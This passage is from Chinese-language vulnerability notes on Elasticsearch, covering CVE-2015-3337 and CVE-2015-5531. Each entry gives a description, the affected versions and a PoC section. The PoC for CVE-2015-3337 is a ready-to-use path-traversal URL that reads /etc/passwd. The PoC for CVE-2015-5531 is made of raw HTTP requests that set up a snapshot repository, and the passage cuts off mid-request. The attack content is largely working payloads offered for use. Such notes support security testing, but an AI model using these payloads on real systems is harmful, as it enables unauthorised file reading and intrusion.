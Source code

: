     在安装了具有"site"功能的插件以后,插件目录使用 ../ 即可向上跳转,导致目录穿越漏洞,可读取任意文件.没有安装任意插件的 elasticsearch 不受影响.

- 影响版本

    - ElasticSearch < 1.4.4
    - ElasticSearch 1.5.0 ~ 1.5.1

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/

    - `http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd` (不要在浏览器访问)

    - `http://your-ip:9200/_plugin/head/`

**CVE-2015-5531**
- 简介

    elasticsearch 1.5.1 及以前,无需任何配置即可触发该漏洞.之后的新版,配置文件 elasticsearch.yml 中必须存在 path.repo,该配置值为一个目录,且该目录必须可写,等于限制了备份仓库的根位置.不配置该值,默认不启动这个功能.

- 影响版本

    - ElasticSearch < 1.6.0

- 相关文章
    - [Elasticsearch目录遍历漏洞 (CVE-2015-5531) 复现与分析 (附PoC) ](https://www.freebuf.com/vuls/99942.html)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/

    新建一个仓库
    ```
    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test"
        }
    }
    ```

    创建一个快照
    ```
    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
